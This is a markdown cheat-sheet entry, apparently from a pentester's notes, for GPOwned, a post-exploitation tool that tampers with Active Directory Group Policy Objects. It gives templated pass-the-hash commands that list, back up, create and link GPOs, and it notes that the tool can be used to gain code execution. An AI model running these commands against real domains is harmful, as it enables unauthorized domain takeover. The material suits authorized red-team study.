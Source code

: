 # GPOwned

% Active directory, gpo 
#plateform/linux #target/remote #cat/POSTEXPLOIT/GPO  


## GPOwned - desc
```
The script uses impacket and ldap3 to update the GPOs. It implements enough primitives that can be combined (just need to perform minor changes in the code) to achieve different ways of code execution (DLL hijacking, COM junctions, shortcut poisoning, etc.)
```

## GPOwned - repo
```
https://github.com/X-C3LL/GPOwned
```

## GPOwned - doc
```
```

## GPOwned - install
```
```

## list GPO
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -listgpo -gpcmachine
```

## backup GPO
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -gpcmachine  -backup <backup_name> -name "{<gpo_cn>}"
```

## create GPO
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -gpcmachine -creategpo -name "<gpo_name|jubeaz>" -comment "<gpo_comment|pwn>"
```

## link GPO to a site
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -gpcmachine -linkgpotosite -name "<gpo_name|jubeaz>" -sitename "<site_name|Default-First-Site-Name>"
```